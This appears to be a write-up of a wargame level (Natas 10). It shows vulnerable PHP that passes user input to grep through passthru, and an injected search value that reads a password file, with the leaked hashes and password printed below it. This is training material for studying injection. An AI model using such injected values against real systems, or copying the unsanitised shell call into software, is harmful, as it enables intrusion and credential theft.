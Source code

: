 The Page Source code

```html
<div id="content">

For security reasons, we now filter on certain characters<br><br>
<form>
Find words containing: <input name="needle"><input type="submit" name="submit" value="Search"><br><br>
</form>


Output:
<pre></pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```
index-source.html 

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
So it now uses regex for filtering 
Now lets test it 

okay i tried same as previous example says illegal character , tried to add nullbyte "%00" Says Illegal Characters
**HINT** we can modify the output of the grep to output the required file 

```text
// input ".* /etc/natasweb_pass/natas11 #" 
# the hash is to terminate the command after it output what we need

the output is 
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```
Interesting idea
